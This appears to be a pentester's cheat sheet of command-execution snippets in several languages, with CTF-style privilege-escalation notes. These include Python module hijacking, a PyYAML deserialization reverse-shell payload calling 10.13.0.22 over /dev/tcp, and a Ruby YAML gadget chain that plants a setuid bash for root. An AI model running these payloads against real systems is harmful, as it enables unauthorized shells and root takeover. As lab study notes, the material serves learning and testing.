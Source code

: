#### Python  
```  
import subprocess  
output = subprocess.check_output('whoami', shell=True)  
print(output.decode())  
```  
- execute system commands  
- can also use:  
```  
import os  
os.system('whoami')  
```  
  
hijacking imported module for priv esc  
- user has sudo privs for python script that imports "random" module  
- in same directory as script, run:  
```  
echo "import os" > random.py  
```  
- creates first line of new file. then:  
```  
echo 'os.system("/bin/bash")' >> random.py  
```  
- `cat random.py` should show:  
```  
import os  
os.system("/bin/bash")  
```  
- then make modifiable:  
```  
chmod +x random.py  
```  
- set current directory as pythonpath:  
```  
export PYTHONPATH=/home/alice:$PYTHONPATH  
```  
- then run the command that has sudo privs:  
```  
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py  
```  
- should create shell as rabbit user  
#### Python2 v Python3  
- absence of parentheses in print argument indicates script is written in python 2  
	- Python 2: print is a statement, so parentheses are optional unless needed for grouping.  
	- Python 3: print is a function, so parentheses are required:  
		- Ex: `print("Website is up")`  
- Using `input()` in Python2 can lead to security vulnerabilities because it evaluates user input as code.  
	- Python 2:  
		- `input()` function:  
			 - Parses the user input as a Python expression using `eval()`  
			- Equivalent to `eval(raw_input(prompt))`  
			- Dangerous if user input is not trusted, as it can execute arbitrary code.  
		- `raw_input()` function:  
			- Reads user input as a string without evaluation.  
	- Python 3:  
		- `input()` function:  
			- Reads user input as a string.  
			- Equivalent to `raw_input()` in Python 2.  
		- `raw_input()` function:  
			- Removed in Python 3.  
			- If you need to evaluate user input as code (which is generally discouraged), you must explicitly use `eval()`  
  
PyYAML deserialization attacks  
```  
import yaml  
  
data = """  
!!python/object/new:os.system  
- echo EXPLOIT!  
"""  
yaml_data = yaml.load(data)  
```  
- unsafe example: yaml.load is unsafe  
```  
!!python/object/new:type  
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]  
  listitems: "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.13.0.22/443 0>&1\"')"  
```  
- rev shell payload (replace IP and port for `nc` listener)  
#### PHP  
```  
<?php  
echo shell_exec('whoami');  
```  
- can also execute code with `exec()` or `system()`  
  
```  
php -a  
```  
- bash to get an interactive php terminal  
#### MySQL  
```  
SELECT sys_exec('whoami');  
```  
- only works if lib_mysqludf_sys is installed  
	- otherwise, need to escape  
  
#### Node.js (Javascript)  
```  
const { exec } = require('child_process');  
  
exec('whoami', (error, stdout, stderr) => {  
    if (error) {  
        console.error(`Error: ${error.message}`);  
        return;  
    }  
    if (stderr) {  
        console.error(`Stderr: ${stderr}`);  
        return;  
    }  
    console.log(`Output: ${stdout}`);  
});  
```  
- `child_process` to execute  
  
#### Ruby  
```  
puts `whoami`  
```  
- backticks to execute or `system()`:  
```  
system('whoami')  
```  
  
Ruby YAML Deserialization privesc:  
```  
def list_from_file  
    YAML.load(File.read("dependencies.yml"))  
end  
```  
- unsafe YAML code, which was part of a script that user can run with sudo perms  
```  
---  
- !ruby/object:Gem::Installer  
    i: x  
- !ruby/object:Gem::SpecFetcher  
    i: y  
- !ruby/object:Gem::Requirement  
  requirements:  
    !ruby/object:Gem::Package::TarReader  
    io: &1 !ruby/object:Net::BufferedIO  
      io: &1 !ruby/object:Gem::Package::TarReader::Entry  
         read: 0  
         header: "abc"  
      debug_output: &1 !ruby/object:Net::WriteAdapter  
         socket: &1 !ruby/object:Gem::RequestSet  
             sets: !ruby/object:Net::WriteAdapter  
                 socket: !ruby/module 'Kernel'  
                 method_id: :system  
             git_set: id  
         method_id: :resolve  
```  
- POC to save dependencies.yml file in example above   
	- saving in any writable directory should work; does not have to be in the same directory as the ruby script  
- if upon running script with unsafe yaml again, should see `id` output (in addition to potential error messages), means POC worked. Replace with malicious payload:  
```  
---  
- !ruby/object:Gem::Installer  
    i: x  
- !ruby/object:Gem::SpecFetcher  
    i: y  
- !ruby/object:Gem::Requirement  
  requirements:  
    !ruby/object:Gem::Package::TarReader  
    io: &1 !ruby/object:Net::BufferedIO  
      io: &1 !ruby/object:Gem::Package::TarReader::Entry  
         read: 0  
         header: "abc"  
      debug_output: &1 !ruby/object:Net::WriteAdapter  
         socket: &1 !ruby/object:Gem::RequestSet  
             sets: !ruby/object:Net::WriteAdapter  
                 socket: !ruby/module 'Kernel'  
                 method_id: :system  
             git_set: cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf  
         method_id: :resolve  
```  
- copies bash to `/tmp/0xdf` then modifies setid and setgid so anyone can run it and it runs as root  
```  
/tmp/0xdf -p  
```  
- root shell  
#### Perl  
```  
system('whoami');  
```  
  
#### Java  
```  
import java.io.*;  
  
public class Main {  
    public static void main(String[] args) throws Exception {  
        Process process = Runtime.getRuntime().exec("whoami");  
        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));  
        String line;  
        while ((line = reader.readLine()) != null) {  
            System.out.println(line);  
        }  
    }  
}  
```  
- `Runtime.getRuntime().exec()` to execute system commands  